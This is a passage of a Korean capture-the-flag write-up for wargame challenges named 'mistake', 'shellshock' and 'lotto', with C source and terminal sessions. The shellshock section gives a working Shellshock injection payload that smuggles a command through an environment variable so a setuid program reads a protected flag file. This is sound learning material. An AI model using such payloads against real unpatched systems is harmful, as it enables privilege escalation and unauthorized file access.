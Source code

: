 ~~~c
        if(!(len=read(fd,pw_buf,PW_LEN) > 0)){
                printf("read error\n");
                close(fd);
                return 0;
        }

        char pw_buf2[PW_LEN+1];
        printf("input password : ");
        scanf("%10s", pw_buf2);

        // xor your input
        xor(pw_buf2, 10);

        if(!strncmp(pw_buf, pw_buf2, PW_LEN)){
                printf("Password OK\n");
                system("/bin/cat flag\n");
        }
        else{
                printf("Wrong Password\n");
        }

        close(fd);
        return 0;
}
~~~
간단히 풀리는 문제이다. 10개의 값을 넣고 다시 넣은 10개의 값은 xor에서 1이 나오도록 하면 된다.
~~~
mistake@prowl:~$ ./mistake
do not bruteforce...
0000000000
input password : 1111111111
Password OK
~~~
이렇게 flag를 획득했다.
## shellshock
~~~c
#include <stdio.h>
int main(){
     setresuid(getegid(), getegid(), getegid());
     setresgid(getegid(), getegid(), getegid());
     system("/home/shellshock/bash -c 'echo shock_me'");
     return 0;
}
~~~
코드는 위와 같다. 이 문제의 특이한 점은 bash가 들어있는 것이다.
~~~
./shellshock 
shock_me
~~~
shell shock을 실행시키면 bash를 가져오는 것을 알 수 있었고 bash에 대해 구글링했다.
~~~
shellshock@prowl:~$ export hello='() { cat flag; }'
shellshock@prowl:~$ ./bash
shellshock@prowl:~$ hello
~~~
혹시나 해서 바로 export로 환경변수를 이와 설정했더니 바로 flag는 보여주지 않는 모양이다.
그래서 shellshock이라는 이름으로 좀 더 검색해보고 env x='() {:; }; /bin/cat flag' /home/shellshock/shellshock 와 같은 방식으로
falg를 획득가능했다. shellshock에 대한 이해는 따로 정리해서 올리겠다.
## lotto
~~~c
#include <stdio.h>
#include <stdlib.h>
~~~